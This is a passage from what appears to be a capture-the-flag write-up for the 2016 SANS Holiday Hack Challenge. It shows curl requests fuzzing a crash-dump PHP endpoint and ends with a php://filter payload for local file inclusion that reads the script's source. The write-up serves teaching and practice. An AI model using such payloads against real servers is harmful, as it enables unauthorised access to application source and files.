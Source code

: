     HTTP/1.1 200 OK
    Server: nginx/1.10.2
    Date: Thu, 15 Dec 2016 15:33:09 GMT
    Content-Type: text/html; charset=UTF-8
    Connection: keep-alive
    
    {
    	"success" : true,
    	"folder" : "docs",
    	"crashdump" : "crashdump-Ez9xc2.php"
    }

From here, we can fuzz the request payload and examine the server's response to try and built a mental model of the functionality supported by this endpoint:

    $ curl http://ex.northpolewonderland.com/exception.php \
        -d '{}'
    Content type must be: application/json
    
    $ curl http://ex.northpolewonderland.com/exception.php \
        -H 'Content-Type: application/json' \
        -d '{}'
    Fatal error! JSON key 'operation' must be set to WriteCrashDump or ReadCrashDump.
    
    $ curl http://ex.northpolewonderland.com/exception.php \
        -H 'Content-Type: application/json' \
        -d '{"operation":"ReadCrashDump"}'
    Fatal error! JSON key 'data' must be set.
    
    $ curl http://ex.northpolewonderland.com/exception.php \
        -H 'Content-Type: application/json' \
        -d '{"operation":"ReadCrashDump", "data": {}}'
    Fatal error! JSON key 'crashdump' must be set.
    
    $ curl http://ex.northpolewonderland.com/exception.php \
        -H 'Content-Type: application/json' \
        -d '{"operation":"ReadCrashDump", "data": {"crashdump":"crashdump-Ez9xc2.php"}}'
    Fatal error! crashdump value duplicate '.php' extension detected.
    
    $ curl http://ex.northpolewonderland.com/exception.php \
        -H 'Content-Type: application/json' \
        -d '{"operation":"ReadCrashDump", "data": {"crashdump":"crashdump-Ez9xc2"}}'
    <<response body contains what we submitted in the dump data>>

At this point, we can start to think about what vulnerabilities might exist. As per the hints from Sugarplum Mary in the quest world, we could think about PHP I/O streams as a potential vector, and using another SANS blog post, [Getting MOAR Value out of PHP Local File Include Vulnerabilities](https://pen-testing.sans.org/blog/2016/12/07/getting-moar-value-out-of-php-local-file-include-vulnerabilities) by Ed Skoudis, we can use the `ReadCrashDump` functionality to read the source for `exception.php` (with the exception being automatically added by the code on the remote end) by passing a PHP stream filter as the `crashdump` argument:

    $ curl http://ex.northpolewonderland.com/exception.php \
        -H 'Content-Type: application/json' \
        -d '{"operation":"ReadCrashDump", "data": {"crashdump":"php://filter/convert.base64-encode/resource=exception"}}'
